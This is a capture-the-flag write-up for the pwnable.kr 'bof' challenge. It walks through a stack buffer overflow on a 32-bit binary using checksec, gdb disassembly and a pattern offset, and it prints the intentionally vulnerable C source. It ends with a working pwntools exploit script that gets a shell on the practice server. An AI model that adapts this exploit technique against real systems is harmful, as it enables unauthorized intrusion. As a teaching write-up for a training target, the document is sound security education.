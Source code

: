 # bof

As the name suggests (bof stands for Buffer OverFlow) this is the first exploit development task that we have to accomplish. It's a classic buffer overflow on x86 leading to shell.

On this challenge we have a simple buffer overflow to exploit, but it's a good chance to give you my mind map on how I approach that type of challenges, hope that helps some of you construct a methodology.

My methodology on how to approach buffer overflows consists of the following steps.

- 1. Check the architecture of the binary.
- 2. Check for the security of the binary (RELRO,NX etc)
- 3. Reverse engineer the binary to determine the target and check how the security measures of the binary affect it
- 4. Get control of the EIP/RIP manually if that's possible (e.g. on stack based buffer overflows like this one it is, while there are others that you have to ROP them)
- 5. Develop the exploit.
- 6. PWN it!

## Enumeration 
### Step 1

Running **file** against the binary is more than enough to give us the information we want, that is that
the file is compiled as x86_32-bit. That tells us that the memmory addresses will have a length of 4 bytes.
(e.g 0xFFFFFFFF)

```
shad3@zeroday:~/Desktop/Security/CTF/pwnable.kr/bof$ file bof
bof: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.24, BuildID[sha1]=ed643dfe8d026b7238d3033b0d0bcc499504f273, not stripped
```
### Step 2

For that step we have to load the binary to gdb to check for its security measures by using an addon e.g. gdb-peda or pwndbg it's much easier to find the answer that we'are looking for, even though it is viable to do it without one.

```python
gdb-peda$ file bof
Reading symbols from bof...(no debugging symbols found)...done.
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
```
In other cases finding that all these security measures are enabled would have scarred the sh@t out of me,
but on the next step we'll explain why they are irrelevant in our case.

### Step 3

We've been given the source code so there's no need to reverse the binary, by looking at it we immediatly see the call of the vulerable function **gets()** int the function **func** that's where the buffer overflow will occur.In that function we also can see a check between the variable **key** which is always set to **0xdeadbeef** and the hexadecimal value **0xcafebabe**. If we pass this check the binary spawns a shell. But since the key has always the value 0xdeadbeef this check will always fail .... or not?.

```c

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}

```

It's pretty clear from now on that we have to overflow the **overflowme[32]** array and overwrite the value of 0xdeadbeef with 0xcafebabe so that we can get our shell by passing the check.
## Exploit
### Step 4

We know that the buffer is 32 bytes so lets create a pattern of 60 bytes to be sure that we'll overflow it.
To determine the offset of the key variable we have to take a look at the disassemble dump of the **func()** variable 
```python
gdb-peda$ disassemble func 
Dump of assembler code for function func:
   0x5655562c <+0>:     push   ebp
   0x5655562d <+1>:     mov    ebp,esp
   0x5655562f <+3>:     sub    esp,0x48
   0x56555632 <+6>:     mov    eax,gs:0x14
   0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:    xor    eax,eax
   0x5655563d <+17>:    mov    DWORD PTR [esp],0x5655578c
   0x56555644 <+24>:    call   0xf7e2bb40 <puts>
   0x56555649 <+29>:    lea    eax,[ebp-0x2c]
   0x5655564c <+32>:    mov    DWORD PTR [esp],eax
   0x5655564f <+35>:    call   0xf7e2b2b0 <gets>
=> 0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    mov    DWORD PTR [esp],0x5655579b
   0x56555664 <+56>:    call   0xf7e01200 <system>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    mov    DWORD PTR [esp],0x565557a3
   0x56555672 <+70>:    call   0xf7e2bb40 <puts>
   0x56555677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0xf7ecdb60 <__stack_chk_fail>
   0x56555688 <+92>:    leave  
   0x56555689 <+93>:    ret    
End of assembler dump.
gdb-peda$ 
```
We have to set the breakpoint at the CMP -compaire- instuction between 0xcafebabe and the key variable (keep in mind that RELRO is enabled so you have to set a breakpoint at the main function, run the binary to hit the breakpoint, so that the system assigns to the instructions their address space and then set a breakpoint inside the func() function). As it is shown on the disassembly of the function the key variable at this point it's stored, where the EBP register is pointing plus 0x8 bytes. So let's hit the breakpoint to determine where in the buffer that we send, the EBP register is pointing.


```python
[----------------------------------registers-----------------------------------]
EAX: 0xffffcebc ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA")
EBX: 0x0 
ECX: 0xf7f9c5c0 --> 0xfbad2098 
EDX: 0xf7f9d89c --> 0x0    
ESI: 0xf7f9c000 --> 0x1d7d6c 
EDI: 0x0 
EBP: 0xffffcee8 ("AFAAbAA1AAGAAcAA")
ESP: 0xffffcea0 --> 0xffffcebc ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA")
EIP: 0x56555654 (<func+40>:     cmp    DWORD PTR [ebp+0x8],0xcafebabe)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x56555649 <func+29>:        lea    eax,[ebp-0x2c]
   0x5655564c <func+32>:        mov    DWORD PTR [esp],eax
   0x5655564f <func+35>:        call   0xf7e2b2b0 <gets>
=> 0x56555654 <func+40>:        cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <func+47>:        jne    0x5655566b <func+63>
   0x5655565d <func+49>:        mov    DWORD PTR [esp],0x5655579b
   0x56555664 <func+56>:        call   0xf7e01200 <system>
   0x56555669 <func+61>:        jmp    0x56555677 <func+75>
[------------------------------------stack-------------------------------------]
0000| 0xffffcea0 --> 0xffffcebc ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA")
0004| 0xffffcea4 --> 0x0 
0008| 0xffffcea8 --> 0x0 
0012| 0xffffceac --> 0x0 
0016| 0xffffceb0 --> 0x9 ('\t')
0020| 0xffffceb4 --> 0xffffd194 ("/home/shad3/Desktop/Security/CTF/pwnable.kr/bof/bof")
0024| 0xffffceb8 --> 0xf7df44a9 (add    ebx,0x1a7b57)
0028| 0xffffcebc ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 2, 0x56555654 in func ()
gdb-peda$ 
```
As we can see the offset (EBP register) we find is at 44 bytes + 0x8
```
gdb-peda$ pattern offset AFAA
AFAA found at offset: 44
```
That being said we can calculate that at 54 bytes we start overwriting the 0xdeadbeef value.
If we set that value to 0xcafebabe the check will return 1 and we'll hopefully get our shell.
Note: We are on a x86 system so we have to use little endian on the 0xcafebabe value. Follow the link bellow to get a better understand what is the little endian memmory format.
https://chortle.ccsu.edu/AssemblyTutorial/Chapter-15/ass15_3.html

### Step 5

I have the chance to  introduce you to my favorite python library, that's pwntools. It's a library designed for exploit development, pwnning etc. The script bellow connects to the server, sends the payload that will give us a shell and then switches to interactive mode which is pretty much redirecting the STDIN and STDOUT to that process.

Our payload will have the following format:

PAYLOAD : [AAAAAAA BUFFER SPACE OF 52 BYTES AAAA] + [0xcafebabe in little endian format]

```python
from pwn import *

payload = 'A' * 52 + p32(0xcafebabe)
p = remote('pwnable.kr',9000)
p.sendline(payload)
p.interactive()
```


By running it spawns as a shell yey!!

```python
shad3@zeroday:~/Desktop/Security/CTF/pwnable.kr/bof$ python bof.py 
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls -la
total 6056
drwxr-x---   3 root bof     4096 Oct 23  2016 .
drwxr-xr-x 116 root root    4096 Nov 12 21:34 ..
d---------   2 root root    4096 Jun 12  2014 .bash_history
-r-xr-x---   1 root bof     7348 Sep 12  2016 bof
-rw-r--r--   1 root root     308 Oct 23  2016 bof.c
-r--r-----   1 root bof       32 Jun 11  2014 flag
-rw-------   1 root root 6162219 Apr  9 05:55 log
-rw-r--r--   1 root root       0 Oct 23  2016 log2
-rwx------   1 root root     760 Sep 11  2014 super.pl
$ wc -c flag
32 flag
$  
```





















